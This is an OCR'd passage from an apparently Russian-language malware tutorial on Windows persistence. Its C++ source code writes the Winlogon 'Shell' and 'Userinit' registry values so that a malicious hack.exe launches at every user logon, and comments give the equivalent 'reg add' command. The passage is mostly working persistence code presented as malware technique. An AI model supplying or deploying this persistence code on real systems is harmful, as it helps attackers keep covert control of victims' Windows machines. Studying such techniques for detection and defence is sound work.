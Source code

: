 ```cpp
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Shell", 0, REG_SZ, 
    (unsigned char*)sh, strlen(sh));
    RegCloseKey(hkey);
  }

  return 0;
}
```

Аналогично для `Userinit`. Если этот раздел реестра содержит вредоносное приложение, это приведет к выполнению как `userinit.exe`, так и `hack.exe` во время входа в Windows:    

```cpp
/*
pers.cpp
windows persistence via winlogon keys
author: @cocomelonc
https://cocomelonc.github.io/tutorial/
2022/06/12/malware-pers-7.html
*/
#include <windows.h>
#include <string.h>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // userinit
  const char* ui = "C:\\Windows\\System32\\userinit.exe,
  Z:\\2022-06-12-malware-pers-7\\hack.exe";

  // startup
  LONG res = RegOpenKeyEx(HKEY_LOCAL_MACHINE, 
  (LPCSTR)
  "SOFTWARE\\Microsoft\\Windows NT\\CurrentVersion\\Winlogon", 
  0 , KEY_WRITE, &hkey);
  if (res == ERROR_SUCCESS) {
    // create new registry key

    // reg add 
    // "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows
    // NT\CurrentVersion\Winlogon" 
    // /v "Shell" /t REG_SZ /d "explorer.exe,..." /f
    RegSetValueEx(hkey, (LPCSTR)"Userinit", 0, 
    REG_SZ, (unsigned char*)ui, strlen(ui));
    RegCloseKey(hkey);
  }

  return 0;
}
```
